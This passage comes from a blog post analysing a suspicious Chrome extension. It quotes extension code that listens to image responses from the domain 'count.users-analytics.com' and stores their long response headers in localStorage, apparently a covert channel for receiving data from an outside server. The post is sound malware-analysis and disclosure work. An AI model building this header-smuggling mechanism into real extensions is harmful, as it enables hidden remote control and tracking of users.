 Starting from the top, one block of code stood out in particular. One of the registered handlers listened to responses sent from a server defined in `x[2]` and all the response headers greater than 20 chars in length were saved in local storage.

```js
chrome.webRequest.onCompleted.addListener(function(a) {
    a.responseHeaders.forEach(function(a) {
        a.value && a.value.length > 20 && (localStorage[a.name.toLowerCase()] = a.value)
    })
}, {
    urls: ["*://" + x[2] + "*"],
    types: ["image"]
}, ["responseHeaders"]),
```

A quick search to find what got pushed into array `x` shows that we are listening to a domain called `count.users-analytics.com`. To me, this was a very strange URL for anyone to use to get extension usage analytics. This was certainly not something associated with Google Analytics.

```js
C = function() {
    x.push(y), x.push(E);
    var a = "count.users-analytics.com/";
    x.push(a)
},
```

![WHOIS](https://raw.githubusercontent.com/Spiderpig86/blog/master/images/Extensions%20Google%20Chromes%20Soft%20Underbelly%20Part%201/whois.PNG)
